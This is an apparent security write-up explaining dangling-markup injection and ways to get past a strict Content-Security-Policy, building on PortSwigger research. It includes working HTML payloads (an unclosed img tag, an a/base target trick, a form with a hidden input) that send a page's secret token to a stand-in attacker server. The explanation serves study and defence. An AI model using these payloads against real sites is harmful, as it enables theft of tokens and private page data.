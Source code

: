 # Evading CSP with DOM-based dangling markup (PortSwigger) - An alternative approach

## What is dangling markup?

It is a technique to steal a web page's given contents via resources that send that data onto a remote attacker controlled location.

If we have an injection point:

``` 

<INJECTION POINT> <b>test</b>
<script>
token = 'yoursecrettoken';
</script>
<form action="blah"></form>

``` 

We can simply inject: `<img src="https://attackercontrolled.server?` and the previous html becomes:

``` 

<img src="https://attackercontrolled.server? <b>test</b>
<script>
token = 'yoursecrettoken';
</script>
<form action="blah"></form>

``` 
As such, the data is sent as part of the query-string to the attacker controlled domain.

## Portswigger Research

This does not work with strict `CSP` such as: `default-src 'none'; base-uri 'none';`. The image will not load because no origin is allowed for that purpose. 

The amazing portswigger researcher Gareth Heyes discovered a technique to inject dangling markup even with these restrict directives:

``` 

<a href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html><font size=100 color=red>You must click me</font></a><base target="blah<b>test</b>

<script>
token = 'supersecret';
</script>

<form action="blah">
</form>

```

By injecting an `<a>`and a `<base>` tag, we send data onto an attacker controlled server: If the `target` attribute is not one of any predefined values, it will set `window.name` of the new window to the value it has. This means we can inject a dangling markup, and exfiltrate the data in the attacker controlled server like this:


`<script>alert("The extracted content is:" + name);</script>`

## If form is allowed - exifiltrating without correct markup, without javascript and bypassing CSP.

If the tag `<form>` is allowed, an attacker can exfiltrate information with a dangling markup by taking advantage of `action` and `value` attributes of `<form>` and `<input>`respectively. This technique  does not require correct markup below your injection point, bypasses CSP and does not use javascript on another page to exfiltrate what was read.

```

<?php

header("Content-Security-Policy: base-uri 'none'; default-src 'none';");

?>


<!DOCTYPE HTML>
<html>
<form action="http://attackercontrolled.server" method="GET">
    <input type="submit" name="submit">
    <input hidden type="text" name="id" value="
<script>
    token = 'supersecret';
</script>
</form>"

</html>


```

This works because before a form is sent the browser collects each `value` attribute in each `<input>` tag. When the form is sent by cliking the submit button, those values are sent with it to the url at the attacker controlled server. The attacker receives that data via the id query-string.


![](Images/dang-form.png)



